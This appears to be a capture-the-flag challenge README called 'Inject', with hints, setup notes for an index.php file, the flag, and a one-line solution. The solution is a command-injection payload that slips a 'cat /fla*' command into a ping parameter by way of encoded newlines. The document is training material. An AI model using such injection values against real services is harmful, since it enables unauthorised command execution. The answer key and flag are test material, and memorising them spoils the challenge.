 # Inject

## Question Text

Ping... Ping... Ping... 
Find the flag at /flag :D

*Creator - @Coldspot

### Hints (Optional)
1. Look up regex modifiers
2. Glob Glob Glob


## Setup Guide
1. Upload index.php

## Distribution
- index.php

## Solution
1. ip=%0Acat /fla*%0A127.0.0.1

### Flag
`HNF{y0u_f0und_me}`

## Recommended Reads
